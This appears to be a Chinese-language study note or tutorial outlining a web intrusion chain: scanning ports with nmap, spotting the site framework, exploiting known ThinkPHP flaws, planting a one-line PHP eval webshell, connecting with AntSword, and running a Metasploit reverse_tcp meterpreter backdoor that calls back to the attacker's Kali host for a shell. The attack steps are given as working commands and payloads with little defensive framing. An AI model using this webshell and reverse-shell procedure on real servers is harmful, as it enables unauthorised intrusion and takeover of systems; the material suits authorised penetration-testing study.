






## 快速识别网站

### 扫端口

如：快扫网关已开启的端口

*：快扫并不完整，只扫常用端口

8080端口启用，代表可能存在网站服务




Kali中的Nmap只能使用命令行，常用命令：

```
nmap -sT -T4 [ipAddress]
```

> -s: Scan
>
> T: TCP
>
> -T Time	# 控制时间
>
> 4				# 扫描速度(0-5 数字越大越快)


同类工具：御剑端口扫描工具


### 看开发框架

> 通常存在于页面末端或网站图标或F12里


### 搜索历史漏洞并利用

如：thinkphp




### 上传后门

例1：



例2：


### Webshell

Ex：一句话木马

```php
<?php eval($_POST[ccc];)?>
```


常用工具：中国蚁剑、菜刀、哥斯拉、冰蝎

**蚁剑为例**：

仓库：[AntSwordProject (github.com)](https://github.com/AntSwordProject)

文档：[AntSword 文档 · 语雀 (yuque.com)](https://www.yuque.com/antswordproject/antsword)





连接成功后即可进行GetShell等操作



**利用Metesploit进行攻击**

生成后门

*：Linux的可执行文件格式为elf，故-f 为 elf




将后门Copy到服务器后，msfconsole开启监听

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost [kali_IP]
set lport [10000]
run
```


回到蚁剑，打开服务器Terminal，更改生成的elf文件的权限为可执行，并运行文件

```
chmod 777 demo10000.elf
./demo10000.elf
```


此时正在监听的kali便能get到更高权限的shell


